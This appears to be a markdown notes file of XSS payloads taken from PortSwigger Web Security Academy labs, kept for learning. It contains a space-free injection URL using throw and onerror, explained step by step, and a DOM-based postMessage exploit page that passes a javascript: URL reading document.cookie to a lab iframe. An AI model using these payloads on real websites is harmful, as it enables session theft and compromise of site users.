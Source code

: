 # XSS Vectors
## XSS Vector Without Spaces, Using Throw

This payload is taken from the portswigger academy [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked). The request url is the following `/post?postId=5&%27},x=x=%3E{onerror=alert;throw/**/1337},toString=x,window+'',{x:'<`. When the request is sent, the injected html looks like this:

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{onerror%3dalert%3bthrow/**/1337},toString%3dx,window+%27%27,{x%3a%27%3c'}).finally(_ => window.location = '/')">Back to Blog</a>
```

When we extract just the href attribute, remove the javascript prefix and url-decode everything(remember, since we are in an href, url encoded values are actually used in their decoded form, so even though the \' is encoded to %27, it still closes the previous single quote) we are left with the js code:

``` javascript
fetch('/analytics',
  {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw/**/1337},toString=x,window+''
      ,{x:''}).finally(_ => window.location = '/')
```

What this vector does can be split up into steps:

1.  close the `body:` of the dictionary and close the dictionary, and add a new parameter to the call of the `fetch()` function.
2.  In this new call, define a new function `x` that always throws the error `1337` a. When the function is called, `window.onerror` is set to the `alert` function, so every error thrown in `x()` is passed to `alert` b. then, we throw an error with the message `1337` c. `x(x)` also has a parameter named x, this is because we use the x function as a substitute for `toString`. If we hadn\'t defined it like that, the javascript interpreter would throw an error before we could even call `x`, therefore, our payload wouldn\'t run.
3.  Then, with `toString=x`, we set the toString function to x
4.  Finally, we run `window+''`, which implicitly calls toString and therefore runs our malicious function x.
5.  The rest are used to close the dictionary that we have injected into so that we end up with valid javascript.

# DOM Based XSS message

``` html
<script>
function message(){
document.getElementById('xss').contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.cookie)"}','*');
}
</script>

<iframe height=1000 width=1000 id="xss" src="https://aca21f1a1ea5dc85808d28650079004d.web-security-academy.net/" onload="message()">
</iframe>
```